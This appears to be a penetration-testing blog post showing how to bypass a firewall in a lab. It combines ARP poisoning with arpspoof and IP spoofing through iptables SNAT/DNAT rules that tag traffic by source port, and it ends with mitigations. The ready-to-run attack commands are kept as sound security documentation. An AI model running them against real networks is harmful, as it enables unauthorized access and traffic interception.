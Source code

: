 ```yaml
---
layout: post
date:   2019-10-28 20:00:00 +0200
categories: pentest
description: "A specific case of bypassing a firewall"
title:  "Combining ARP poisoning and IP spoofing to bypass firewalls"
---
```

# Introduction
Recently a colleague of mine and I had to test if there was a way to gain access to a specific network segment (let's call it SecNet) from another network (BadNet). Of course the most basic attempts with ping and port scanning failed, because the firewall blocked everything that came from our segment, so we had to find a way to bypass the firewall. 

One of the devices available in BadNet was a DNS server and this server was configured as the primary DNS in the DHCP settings. We also confirmed that other networks also used this server as their DNS, thus our hypothesis was that maybe the devices from SecNet also used the same server as their DNS. If that was the case and the firewall wasn't configured to be restrictive enough, then the DNS server should have access to the SecNet network.

To confirm this we used ARP poisoning attack to do a man-in-the-middle (MITM) between the DNS and the gateway to see if traffic from SecNet reaches the DNS in BadNet.  
It did. 

Then we had to find a way to exploit this in order to reach SecNet. If we only spoofed our IP address, the return traffic would've been routed to the DNS server and we wouldn't be able to receieve it. If we poisoned the ARP table of the gateway and pretended that our host was the DNS server, then the hosts from other networks wouldn't be able to reach it and with this we would introduce a denial of service, which was not acceptable. Exploiting the server was out of scope. The only solution was to spoof our IP while simultaneously doing MITM as this would give us the opportunity to receive the return traffic of the spoofed requests. 

Because we faced some problems implementing such attack and Google wasn't helpful in finding solutions to those problems, I decided to explain what we did in this blog post.

Disclaimer:  
The technique for marking the spoofed packets is not my idea. I think I saw it in a tool for bypassing 802.1x, but I can't remember which one.

# Network Topology
The network topology of my virtualized environment for the demonstration.

SecNet: 172.16.3.0/24  
SecNet Sensitive Host: 172.16.3.10  
BadNet: 172.16.2.0/24  
BadNet DNS server: 172.16.2.10  
BadNet Hacker: 172.16.2.20  
Firewall: 172.16.2.2  
Firewall: 172.16.3.2   

![net_diag_1.png](/images/firewall_bypass/net_diag_1.png)  

In this environment the firewall is a Linux VM with a simple iptables rule which drops everything except traffic to and from the DNS server (172.16.2.10). 
Let's test it with a simple ping:  
![ping_test.PNG](/images/firewall_bypass/ping_test.PNG)

# The Attack
There are many guides which explain how to achieve MITM with ARP poisoning, so I won't spend much time on this.
One of the first things you should do is enable routing on your host, otherwise the packets won't be redirected to the victim.
This is easily achieved with the following command:

```bash
sysctl net.ipv4.ip_forward=1
```

For the actual ARP poisoning I used the arpspoof tool:
```bash
arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2

# -i Interface
# -t Target IP
# -r Gateway IP
```

With this we've achieved MITM. The diagram below shows how the traffic flows from source to destination:  
![net_diag_2.png](/images/firewall_bypass/net_diag_2.png)

Right now if we spoof our IP and try to access SecNet the return traffic will be routed back to the DNS server which in turn will respond with TCP RST and terminate the session. This behavior is shown below:  
![net_diag_3.png](/images/firewall_bypass/net_diag_3.png)

To solve this problem we need to
* Tag our spoofed traffic somehow
* Don't route the response of the tagged (spoofed) traffic
* Accept the tagged traffic as if it was destined to the attacker's host

To tag the spoofed packets we could use the source tcp ports. Windows and Linux use specific port ranges for the source ports when initiating a new connection.
For Windows this can be found with the command:
```
netsh int ipv4 show dynamicport tcp
```

On my windows 10 machine the output from the above command is:
```
Protocol tcp Dynamic Port Range
---------------------------------
Start Port      : 49152
Number of Ports : 16384
```

Which means that in Windows 10 the source port range is 49152 - 65536.


On linux you can check with:
```bash
sysctl net.ipv4.ip_local_port_range
```

On my Kali the result is:
```
net.ipv4.ip_local_port_range = 32768	60999
```

We can use source ports from a range which is not used by our target to tag our spoofed traffic. If it's a windows host, we can use ports outside the range 49152 - 65536 and if it's a Linux host - source ports outside the 32768 - 60999 range,

If we don't know the OS of the target, we can use a source port range different than the combination of both ranges. In this demonstration I'll assume that we don't know the OS of the target.

1. The IP spoofing of the outgoing packets can be done with iptables and a NAT rule. The NAT rule would also change the source port range.  
2. Another NAT rule would look for a specific destination IP and destination port range in order to identify the incoming packets which are in response to the spoofed traffic. The destination IP will be changed to the local IP of the interface and the port range will be restored. That way the response to our spoofed traffic will be routed to the local host.  


The diagram below shows how traffic is handled by the interface in this configuration:  
![netfilter.png](/images/firewall_bypass/netfilter.png)

And the result would be:  
![net_diag_4.png](/images/firewall_bypass/net_diag_4.png)

To implement the tagging we need to choose the source port range first. Because I assume the OS of the target is unknown, then the ports should differ from both the Windows and Linux ranges. I chose to use 20000 - 30000.
Because this range has different size (10000) than the port range of my Kali (28231) I wasn't sure if this could lead to problems, so I also changed the source port range of the attacker host from 32768 - 60999 to 40000 - 50000.

The following commands are everything you need to accomplish all of this.
```bash
# Enable routing
sysctl net.ipv4.ip_forward=1

# Change the source port range of the attacker host
echo "40000 50000" > /proc/sys/net/ipv4/ip_local_port_range

# The outgoing packets sourced by the attacker's host (their source 
# IP is 172.16.2.20) have their source IP changed to the target 
# IP (172.16.2.10) and the source port range moved to another range.
# 
# This basically tags the outgoing traffic by spoofing the IP 
# and modifying the source ports.
iptables -t nat -A POSTROUTING -s 172.16.2.20/32 -o eth0 -p tcp -j SNAT --to-source 172.16.2.10:20000-30000

# Incoming traffic which has the target host as it's destination (172.16.2.10)
# and has destination port in the range of 20000:30000 is changed to the 
# attacker IP (172.16.2.20) and the port range is restored to 40000:50000.
# 
# This basically identifies the response of the spoofed traffic and changes
# it in order to be routed to the attacker's host.
iptables -t nat -A PREROUTING -d 172.16.2.10/32 -i eth0 -p tcp -m tcp --dport 20000:30000 -j DNAT --to-destination 172.16.2.20:40000-50000

# Start the MITM attack
sudo arpspoof -i eth0 -t 172.16.2.10 -r 172.16.2.2
```

Now when we test the connection to the host in the SecNet segment, a successful TCP session is established:  
![arpspoof_test.PNG](/images/firewall_bypass/arpspoof_test.PNG)

The firewall is successfully bypassed! This means it's possible to launch port scans and interact with the services in the SecNet segment!

Some recommendations to prevent such attacks are:
* Use Dynamic ARP Inspection to protect from arp poisoning
* Use IP Source Guard to prevent IP spoofing
* Harden your firewall rules and permit only the necessary ports on your firewalls

# References:
[1] [https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port](https://superuser.com/questions/1118735/how-are-source-ports-determined-and-how-can-i-force-it-to-use-a-specific-port)
